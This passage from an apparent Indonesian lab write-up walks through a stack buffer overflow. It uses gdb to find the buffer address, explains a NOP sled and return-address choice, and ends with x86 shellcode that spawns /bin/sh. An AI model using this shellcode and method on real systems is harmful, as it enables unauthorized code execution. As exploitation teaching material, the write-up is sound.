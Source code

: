     gdb-peda$ b *main+79
    Breakpoint 1 at 0x8048529
    r

.*

pada stack terlihat alamat str mulai mengisi nilai
pada alamat tertentu yaitu

```python
0xbfffea37
```
<img src="img/stack.png" alt="call_shellcode"
     style="float: left;" />
<br>

berarti kita dapat menaruh return address mulai dari alamat diatas sampai 517-len(shelccode) dikarenakan kita akan menaruh shelccode pada akhir badfile, jadi ketika kita alihkan ke alamat diantara alamat diatas sampai 517-len(shelccode) kita pada akhirnya akan menemui shellcode dan dapat mengeksekusi nya karena selain shellcode isi badfile hanyalah 0x90(NOP) yg artinya tidak ada  operasi apa-apa.

kita buat saja return address nya
```python
0xbfffea77
```

#### 6. Membuat Payload dan mengeksekusi
payload =

```python
import sys

shellcode= (
    "\x31\xc0"             # xorl    %eax,%eax              
    "\x50"                 # pushl   %eax                   
    "\x68""//sh"           # pushl   $0x68732f2f            
    "\x68""/bin"           # pushl   $0x6e69622f            
    "\x89\xe3"             # movl    %esp,%ebx              
    "\x50"                 # pushl   %eax                   
    "\x53"                 # pushl   %ebx                   
    "\x89\xe1"             # movl    %esp,%ecx              
    "\x99"                 # cdq                            
    "\xb0\x0b"             # movb    $0x0b,%al              
    "\xcd\x80"             # int     $0x80                  
).encode('latin-1')

```